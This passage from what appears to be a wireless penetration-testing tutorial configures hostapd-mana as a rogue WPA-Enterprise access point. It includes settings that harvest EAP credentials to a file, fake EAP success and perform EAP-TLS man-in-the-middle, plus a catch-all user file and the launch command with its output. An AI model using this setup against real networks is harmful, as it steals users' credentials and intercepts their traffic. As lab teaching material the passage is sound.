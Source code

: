 ```bash
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

Creating the EAP user file at **/etc/hostapd-mana/mana.eap\_user** as referenced in our previous file:

{% code overflow="wrap" %}
```bash
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
{% endcode %}

**hostapd.eap\_user** format:

* The first column indicates a specific user by username or, in the event of wildcard character (\*), any user. It can contain a domain name as well.
* The second column contains the protocols allowed for the specific users and authentication phase.
* The third one is optional and is used for the password when a specific user is mentioned.
* The fourth one, indicated here with **\[2]**, indicates that the settings on this line are for phase 2 authentication.

Starting hostapd-mana with the configuration file we created:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo hostapd-mana /etc/hostapd-mana/mana.conf
Configuration file: mana.conf
MANA: Captured credentials will be written to file '/tmp/hostapd.credout'.
Using interface wlan0 with hwaddr 16:93:8a:98:ec:4f and ssid "Playtronics"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED
```
{% endcode %}
